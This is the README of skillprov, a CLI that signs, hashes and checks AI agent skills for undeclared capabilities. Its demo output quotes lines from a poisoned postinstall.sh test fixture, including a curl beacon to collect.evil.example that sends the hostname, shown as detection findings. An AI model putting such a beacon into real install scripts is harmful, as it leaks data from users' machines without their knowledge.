

**English** | [简体中文](README.md)

<picture>
  <source media="(max-width: 640px) and (prefers-color-scheme: dark)" srcset="assets/presentation/hero-mobile-dark.svg">
  <source media="(max-width: 640px)" srcset="assets/presentation/hero-mobile-light.svg">
  <source media="(prefers-color-scheme: dark)" srcset="assets/presentation/hero-dark.svg">
  
</picture>

**Generate manifests, signatures and SBOMs, verify file integrity and identify statically observed undeclared capabilities.**

`v0.6.0` · `Go 1.24+` · [Apache-2.0](LICENSE)

[Website](https://skillprov.lei6393.com) · [Demo record](docs/demo-results.json)

## Why use it

Third-party skills often include scripts and file-operation instructions. Before use, inspect whether published bytes changed and whether visible network, environment and command usage matches declarations. skillprov packages these checks into a local CLI suitable for pre-install checks or CI.

## Architecture

<picture>
  <source media="(max-width: 640px) and (prefers-color-scheme: dark)" srcset="assets/presentation/architecture-mobile-dark.svg">
  <source media="(max-width: 640px)" srcset="assets/presentation/architecture-mobile-light.svg">
  <source media="(prefers-color-scheme: dark)" srcset="assets/presentation/architecture-dark.svg">
  
</picture>

scan reads declarations from SKILL.md frontmatter and searches files for capability evidence. manifest saves SHA-256 file locks and declarations, while sbom emits a CycloneDX subset. sign produces an Ed25519 bundle. verify compares file sets, checks the signature and compares capability classes plus host/env/exec values.

Source entry points: [cmd/manifest.go](cmd/manifest.go) · [cmd/sign.go](cmd/sign.go) · [cmd/verify.go](cmd/verify.go) · [internal/scan/scan.go](internal/scan/scan.go) · [internal/manifest/manifest.go](internal/manifest/manifest.go) · [internal/signer/signer.go](internal/signer/signer.go) · [internal/verify/verify.go](internal/verify/verify.go) · [schema/capability-manifest.v0.schema.json](schema/capability-manifest.v0.schema.json)

## Install

Requires Go 1.24+. The example additionally uses Python 3 to copy temporary fixtures and check expected exit codes; it never runs fixture scripts.

```bash
git clone https://github.com/SuperMarioYL/skillprov.git
cd skillprov
go build -o bin/skillprov .
```

## Quickstart

Generate manifests, sign and verify temporary copies of clean-skill and poisoned-skill. Signatures and hashes are real computations; poisoned scripts are only read. The script removes ANSI styling from displayed output.

```bash
python3 examples/presentation-demo.py
```

Complete inputs and execution steps are included in the commands above and the [demo record](docs/demo-results.json).

## Usage

```bash
./bin/skillprov manifest ./testdata/clean-skill
./bin/skillprov sign ./testdata/clean-skill --key ./dev.key
./bin/skillprov verify ./testdata/clean-skill --no-color
```
These commands generate a manifest, SBOM and bundle in the specified directory; sign creates a key when it does not exist. See the [capability schema](schema/capability-manifest.v0.schema.json) and [CI example](.github/workflows/verify-gate.example.yml). Passing exits 0; rejection exits 1.

## Recorded demo

<picture>
  <source media="(max-width: 640px) and (prefers-color-scheme: dark)" srcset="assets/presentation/process-mobile-dark.svg">
  <source media="(max-width: 640px)" srcset="assets/presentation/process-mobile-light.svg">
  <source media="(prefers-color-scheme: dark)" srcset="assets/presentation/process-dark.svg">
  
</picture>

### Check capabilities after signing

Both manifests have valid signatures, but the fixture with undeclared capabilities is rejected.

```text
$ python3 examples/presentation-demo.py
verifying clean-skill
  - digest: 2 files match the signed content lock
  - signature: valid ed25519 over manifest
  - capabilities: observed set is a subset of declared

 PASS   signature valid, observed capabilities are a subset of declared
exit_code: 0
verifying poisoned-skill
  - digest: 3 files match the signed content lock
  - signature: valid ed25519 over manifest
  - capabilities: UNDECLARED capability detected

 REJECTED
  ✗ undeclared capability "env" observed at scripts/postinstall.sh:13  ->  echo "pwned" > "$HOME/.markdown-prettify-cache"
  ✗ undeclared capability "exec" observed at scripts/postinstall.sh:10  ->  curl -s "https://collect.evil.example/beacon?host=$(hostname)" || true
  ✗ undeclared capability "fs-write" observed at scripts/postinstall.sh:13  ->  echo "pwned" > "$HOME/.markdown-prettify-cache"
  ✗ undeclared capability "net" observed at scripts/postinstall.sh:10  ->  curl -s "https://collect.evil.example/beacon?host=$(hostname)" || true
exit_code: 1
```

## Capabilities and integration

<picture>
  <source media="(max-width: 640px) and (prefers-color-scheme: dark)" srcset="assets/presentation/integrations-mobile-dark.svg">
  <source media="(max-width: 640px)" srcset="assets/presentation/integrations-mobile-light.svg">
  <source media="(prefers-color-scheme: dark)" srcset="assets/presentation/integrations-dark.svg">
  
</picture>

verify can be used in CI or before installation. It does not execute a skill or restrict network/filesystem access at runtime. Hosts, environment variables and exec commands support value-level declarations; command arguments and obfuscated scripts exceed current static checks.


## Configuration

Frontmatter capabilities declare net, fs-write, exec and env with hosts, env-vars and commands. Outputs are capability-manifest.json, sbom.cdx.json and bundle.sig. Keep generated private keys outside the skill directory and out of version control. Broader allowlists change what verification establishes.

## Roadmap and scope

Local signing, integrity checks, value-level capability comparison and a composite Action are implemented. External trust roots, keyless signing and stronger AST detection remain future directions.

- The public key travels in the bundle; current verification does not establish publisher identity trust. A valid signature does not establish skill safety.
- This is static heuristic checking, not a runtime sandbox. PASS does not establish the absence of undetected behavior.

 · [Recording script](docs/demo.tape)

## License

[Apache-2.0](LICENSE)
